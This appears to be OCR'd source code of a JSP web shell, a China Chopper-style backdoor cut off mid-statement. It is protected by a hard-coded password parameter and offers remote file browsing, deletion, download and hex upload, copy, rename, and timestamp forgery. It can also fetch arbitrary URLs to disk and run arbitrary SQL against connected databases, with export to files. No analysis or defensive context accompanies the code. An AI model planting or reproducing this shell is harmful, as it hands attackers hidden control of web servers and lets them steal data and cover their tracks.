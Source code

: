 ```
<jsp:root    version="1.2"><jsp:directive.page contentType="text/html" pageEncoding="UTF-8" /><jsp:directive.page import="java.io.*"/><jsp:directive.page import="java.util.*"/><jsp:directive.page import="java.net.*"/><jsp:directive.page import="java.sql.*"/><jsp:directive.page import="java.text.*"/><jsp:declaration>String Pwd="023";String cs="UTF-8";String EC(String s)throws Exception{return new String(s.getBytes("ISO-8859-1"),cs);}Connection GC(String s)throws Exception{String[] x=s.trim().split("\r\n");Class.forName(x[0].trim());if(x[1].indexOf("jdbc:oracle")!=-1){return DriverManager.getConnection(x[1].trim()+":"+x[4],x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);}else{Connection c=DriverManager.getConnection(x[1].trim(),x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);if(x.length>4){c.setCatalog(x[4]);}return c;}}void AA(StringBuffer sb)throws Exception{File r[]=File.listRoots();for(int i=0;i&lt;r.length;i++){sb.append(r[i].toString().substring(0,2));}}void BB(String s,StringBuffer sb)throws Exception{File oF=new File(s),l[]=oF.listFiles();String sT,sQ,sF="";java.util.Date dt;SimpleDateFormat fm=new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");for(int i=0; i&lt;l.length; i++){dt=new java.util.Date(l[i].lastModified());sT=fm.format(dt);sQ=l[i].canRead()?"R":"";sQ +=l[i].canWrite()?" W":"";if(l[i].isDirectory()){sb.append(l[i].getName()+"/\t"+sT+"\t"+l[i].length()+"\t"+sQ+"\n");}else{sF+=l[i].getName()+"\t"+sT+"\t"+l[i].length()+"\t"+sQ+"\n";}}sb.append(sF);}void EE(String s)throws Exception{File f=new File(s);if(f.isDirectory()){File x[]=f.listFiles();for(int k=0; k &lt; x.length; k++){if(!x[k].delete()){EE(x[k].getPath());}}}f.delete();}void FF(String s,HttpServletResponse r)throws Exception{int n;byte[] b=new byte[512];r.reset();ServletOutputStream os=r.getOutputStream();BufferedInputStream is=new BufferedInputStream(new FileInputStream(s));os.write(("->"+"|").getBytes(),0,3);while((n=is.read(b,0,512))!=-1){os.write(b,0,n);}os.write(("|"+"&lt;-").getBytes(),0,3);os.close();is.close();}void GG(String s,String d)throws Exception{String h="0123456789ABCDEF";File f=new File(s);f.createNewFile();FileOutputStream os=new FileOutputStream(f);for(int i=0; i&lt;d.length();i+=2){os.write((h.indexOf(d.charAt(i)) &lt;&lt; 4 | h.indexOf(d.charAt(i+1))));}os.close();}void HH(String s,String d)throws Exception{File sf=new File(s),df=new File(d);if(sf.isDirectory()){if(!df.exists()){df.mkdir();}File z[]=sf.listFiles();for(int j=0; j&lt;z.length; j++){HH(s+"/"+z[j].getName(),d+"/"+z[j].getName());}}else{FileInputStream is=new FileInputStream(sf);FileOutputStream os=new FileOutputStream(df);int n;byte[] b=new byte[512];while((n=is.read(b,0,512))!=-1){os.write(b,0,n);}is.close();os.close();}}void II(String s,String d)throws Exception{File sf=new File(s),df=new File(d);sf.renameTo(df);}void JJ(String s)throws Exception{File f=new File(s);f.mkdir();}void KK(String s,String t)throws Exception{File f=new File(s);SimpleDateFormat fm=new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");java.util.Date dt=fm.parse(t);f.setLastModified(dt.getTime());}void LL(String s,String d)throws Exception{URL u=new URL(s);int n=0;FileOutputStream os=new FileOutputStream(d);HttpURLConnection h=(HttpURLConnection) u.openConnection();InputStream is=h.getInputStream();byte[] b=new byte[512];while((n=is.read(b))!=-1){os.write(b,0,n);}os.close();is.close();h.disconnect();}void MM(InputStream is,StringBuffer sb)throws Exception{String l;BufferedReader br=new BufferedReader(new InputStreamReader(is));while((l=br.readLine())!=null){sb.append(l+"\r\n");}}void NN(String s,StringBuffer sb)throws Exception{Connection c=GC(s);ResultSet r=s.indexOf("jdbc:oracle")!=-1?c.getMetaData().getSchemas():c.getMetaData().getCatalogs();while(r.next()){sb.append(r.getString(1)+"\t");}r.close();c.close();}void OO(String s,StringBuffer sb)throws Exception{Connection c=GC(s);String[] x=s.trim().split("\r\n");ResultSet r=c.getMetaData().getTables(null,s.indexOf("jdbc:oracle")!=-1?x.length>5?x[5]:x[4]:null,"%",new String[]{"TABLE"});while(r.next()){sb.append(r.getString("TABLE_NAME")+"\t");}r.close();c.close();}void PP(String s,StringBuffer sb)throws Exception{String[] x=s.trim().split("\r\n");Connection c=GC(s);Statement m=c.createStatement(1005,1007);ResultSet r=m.executeQuery("select * from "+x[x.length-1]);ResultSetMetaData d=r.getMetaData();for(int i=1;i&lt;=d.getColumnCount();i++){sb.append(d.getColumnName(i)+" ("+d.getColumnTypeName(i)+")\t");}r.close();m.close();c.close();}void QQ(String cs,String s,String q,StringBuffer sb,String p)throws Exception{Connection c=GC(s);Statement m=c.createStatement(1005,1008);BufferedWriter bw=null;try{ResultSet r=m.executeQuery(q.indexOf("--f:")!=-1?q.substring(0,q.indexOf("--f:")):q);ResultSetMetaData d=r.getMetaData();int n=d.getColumnCount();for(int i=1; i &lt;=n; i++){sb.append(d.getColumnName(i)+"\t|\t");}sb.append("\r\n");if(q.indexOf("--f:")!=-1){File file=new File(p);if(q.indexOf("-to:")==-1){file.mkdir();}bw=new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(q.indexOf("-to:")!=-1?p.trim():p+q.substring(q.indexOf("--f:")+4,q.length()).trim()),true),cs));}while(r.next()){for(int i=1; i&lt;=n;i++){if(q.indexOf("--f:")!=-1){bw.write(r.getObject(i)+""+"\t");bw.flush();}else{sb.append(r.getObject(i)+""+"\t|\t");}}if(bw!=null){bw.newLine();}sb.append("\r\n");}r.close();if(bw!=null){bw.close();}}catch(Exception e){sb.append("Result\t|\t\r\n");try{m.executeUpdate(q);sb.append("Execute Successfully!\t|\t\r\n");}catch(Exception ee){sb.append(ee.toString()+"\t|\t\r\n");}}m.close();c.close();}</jsp:declaration><jsp:scriptlet>cs=request.getParameter("z0")!=null?request.getParameter("z0")+"":cs;response.setContentType("text/html");response.setCharacterEncoding(cs);StringBuffer sb=new StringBuffer("");try{String Z=EC(request.getParameter(Pwd)+"");String z1=EC(request.getParameter("
```
